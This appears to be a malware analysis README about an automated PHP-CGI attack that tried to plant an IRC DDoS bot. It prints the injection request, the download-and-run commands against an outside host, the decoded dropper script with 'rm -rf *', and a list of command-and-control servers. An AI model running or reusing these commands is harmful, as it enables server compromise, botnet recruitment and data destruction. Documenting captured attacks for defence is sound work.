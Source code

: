 # Info
Recently discovered automatic attack on our servers.
It was an attempt to upload IRC bot node for IRC DDoS we guess. (::)
We don't know how to call this artifact.

# Flow
Requests came in the following form

```sh
GET:
-d allow_url_include=on -d safe_mode=off -d suhosin.simulation=on -d disable_functions="" -d open_basedir=none -d auto_prepend_file=php://input -d cgi.force_redirect=0 -d cgi.redirect_status_env=0 -d auto_prepend_file=php://input -n = u''

POST:
?> = u''
chmod  x seed  = u''
wget trying.us.to/seed.jpg  = u''
./seed   = u''
tar -xzvf seed.jpg  = u''
rm -rf * ") = u''
fetch http://trying.us.to/seed.jpg  = u''
<? system("cd /tmp  = u''
curl -O http://trying.us.to/seed.jpg  = u''
```

## seed.jpg
Human readable format of seed.jpg
```sh
#!/bin/bash
cd /var/tmp/;
wget trying.us.to/index.htm;
curl -O http://trying.us.to/index.htm;
fetch http://trying.us.to/index.htm;
tar -xzvf index.htm;
rm -rf index.htm;
perl /var/tmp/libssl3.so.2;
rm -rf *;
wget trying.us.to/stats.php;
fetch http://trying.us.to/stats.php;
curl -O http://trying.us.to/stats.php;
tar -xzvf stats.php;
rm -rf stats.php;
cd .d;
./autorun
```

## libssl3.so.2 masking perl control utility
So it is just a CLI utility which accepts parameters and tries to execute target task.

# Hacked nodes
Potential hacked machines lists are in the following files
1. `d/bang.txt`
2. `d/shiet.txt`

# Possible command nodes
```sh
server 66.255.200.3 80
server antiq.shit.la 80
server antiq.shit.la 6667
server antiq.shit.la 9999
server antiq.evils.in 6667
server antiq.evils.in 9999
server antiq.evils.in 80
server antiq.scifi.ro 80
server antiq.scifi.ro 6667
server antiq.scifi.ro 9999
```

# Summary
Authors didn't even bother to strip messages and hide sensitive information.
IRC logins and channel names present in settings files as well as C/C++ sources.
